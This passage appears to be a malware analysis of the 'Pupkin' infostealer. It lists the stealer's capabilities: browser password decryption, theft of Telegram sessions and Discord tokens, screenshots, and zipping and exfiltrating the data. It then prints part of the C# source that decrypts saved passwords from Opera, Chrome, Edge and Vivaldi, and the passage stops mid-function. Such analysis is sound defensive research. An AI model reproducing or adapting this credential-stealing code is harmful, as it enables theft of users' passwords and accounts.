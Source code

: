 - Decrypting saved passwords from Chromium-based browsers.
- Grabbing desktop information (system details or user activities).
- Extracting Telegram session data.
- Retrieving Discord tokens.
- Capturing screenshots of the user's screen.

Once all tasks are complete, the collected data is compressed into a zip file and then dispatched to exfiltrate the data.

Let's analyse each function used by the Pupkin stealer step by step:

# Stage 3: Chromium

```csharp
using System;
using System.Collections.Generic;
using System.Data.SQLite;
using System.Diagnostics;
using System.IO;
using System.Security.Cryptography;
using System.Text;
using Helpers;
using Main;

namespace Browsers
{
    public class Chromium
    {
        public class ChromiumPasswords
        {
            public static void DecryptingBrowsersPasswords()
            {
                Directory.CreateDirectory(Variables.temp + Variables.username + "\\Passwords");

                if (File.Exists(Variables.LoginDataPathOperaGX))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathOperaGX, FunctionsForStealer.LocalStateKeys.GetKeyOperaGX(), "OperaGX.txt", "operagx", out Variables.isOperaGXFound, out Variables.foundOperaGXPasswords);
                }

                if (File.Exists(Variables.LoginDataPathOpera))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathOpera, FunctionsForStealer.LocalStateKeys.GetKeyOpera(), "Opera.txt", "opera", out Variables.isOperaFound, out Variables.foundOperaPasswords);
                }

                if (File.Exists(Variables.LoginDataPathChrome))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathChrome, FunctionsForStealer.LocalStateKeys.GetKeyChrome(), "Chrome.txt", "chrome", out Variables.isChromeFound, out Variables.foundChromePasswords);
                }

                if (File.Exists(Variables.LoginDataPathEdge))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathEdge, FunctionsForStealer.LocalStateKeys.GetKeyEdge(), "Edge.txt", "edge", out Variables.isEdgeFound, out Variables.foundEdgePasswords);
                }

                if (File.Exists(Variables.LoginDataPathVivaldi))
                {
```